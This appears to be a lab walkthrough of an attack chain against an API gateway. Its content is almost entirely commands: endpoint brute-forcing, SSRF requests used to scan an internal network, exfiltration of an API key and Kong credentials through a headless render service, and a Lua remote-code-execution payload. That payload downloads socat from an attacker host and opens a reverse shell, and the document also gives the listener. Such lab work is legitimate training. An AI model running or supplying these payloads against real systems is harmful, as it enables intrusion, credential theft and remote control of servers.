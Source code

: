 directory scan:
```powershell
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://apigateway:8000/FUZZ -t 200 -o endpoints.json
```
We could convert the json into a hashmap and work with the object:
```powershell
$hashtable = gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable 
$hashtable.results
```
but here is a more effective one liner:
```powershell
gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable | % -process { $_.results.GetEnumerator()} | % -process {Add-Content -Path parsed-urls.txt -Value $_.url}
```
Stripped Files
```powershell
foreach ($i in gc ./parsed-urls.txt) {Add-Content -Path endpoints-stripped.txt -value $i.split('/')[3]}
```
Http verb tampering
```powershell
Invoke-RouteBuster -ActionList ./actions-only-valid.txt -Wordlist ./wordlist-only-valid.txt -Target http://apigateway:8000 -Methods get,post
```

ssrf poc:
In particular this is a good example of how to send a json payload
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://192.168.119.144/"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
```

One interesting observeration is that python3 webserver provides less information than apache. To be specific when reading the apache servers logs we are able to see the user agent of the file import microservice: axios/0.21.1
```bash
sudo systemctl start apache2
sudo systemctl status apache
sudo tail /var/log/apache2/access.log -f
```

One thing also worth mentioning is that 'Access-Control-Allow-Credentials' is set on file/import and almost every other endpoing we bruteforced 
```bash
sudo tail /var/log/apache2/access.log -f
```

We can scan a list of gateways with:
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/22' -Ports 8000 -Gateway
```
We can detect all of the live hosts and scan ports within the '172.16.16.0/28' range (/28 gives us the first 15 ip addresses, /29 gives the first 6)
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/28' -Hosts -Open
```
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/29' -Ports 8000 -Hosts -Open
```


headless chrome test powershell:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/test.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltration via Javascript. Note that the internal Javascript reaches out to 172.16.16.4:8001 so at this point there are two ssrf targets.
- 172.16.16.2:9000
- 172.16.16.4:8001
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/exfiltration.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltrate api key
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Authenticated request to /render service
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

Without calling the File Import service, recreate the attack to steal credentials from Kong by calling the Render service directly with the API key.
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Adjust your HTML payload so the credentials are included in the PDF the service returns:
This version is as a pdf
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://172.16.16.4:8001/key-auths"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck -Outfile apicredentials.pdf
```
This version is as html, learned about the output parameter from: https://github.com/alvarcarto/url-to-pdf-api
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://172.16.16.4:8001/key-auths"; "output"="html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

Using flask as a callbackserver to server the javascript payloads and process their outputs.
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163:1080/exfiltration_extramile_chunked.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163:1080/api-key-extraction-callback-server.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

rce:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/rce.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```powershell
iwr -Uri 'http://apigateway:8000/donkey' -SkipHttpErrorCheck
```

Interactive shell to stop the gateway from hanging. My idea was to use a static binary of socat to gain an interative shell.
```lua
local q = string.char(39); -- we use this to avoid a nesting quotes bullshit 39 is ascii for 
local p0 = '/tmp/socat exec:';
local p1 = 'bash -li';
local p2 = ',pty,stderr,setsid,sigint,sane tcp:192.168.119.163:4444';
local p3 = ' &';
local payload= p0 .. q .. p1 .. q .. p2 .. p3; -- .. is the string concatenation operate (kind of like php)
os.execute('wget http://192.168.119.163/socat -O /tmp/socat');os.execute('chmod +x /tmp/socat');os.execute(payload);
```
As a one liner
```lua
local q = string.char(39);local p0 = '/tmp/socat exec:';local p1 = 'bash -li';local p2 = ',pty,stderr,setsid,sigint,sane tcp:192.168.119.163:4444';local p3 = ' &';local payload= p0 .. q .. p1 .. q .. p2 .. p3;os.execute('wget http://192.168.119.163/socat -O /tmp/socat');os.execute('chmod +x /tmp/socat');os.execute(payload);
```
We can setup the reverse shell service with:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/rce_interactive_shell.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Setup the listener:
```zsh
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
Trigger the reverse shell:
```powershell
iwr -Uri 'http://apigateway:8000/zinhart' -SkipHttpErrorCheck
```
Lastly we can verify the gateway is not hung up by reusing one of our previous payloads
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163/callback?gatewaynothung"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```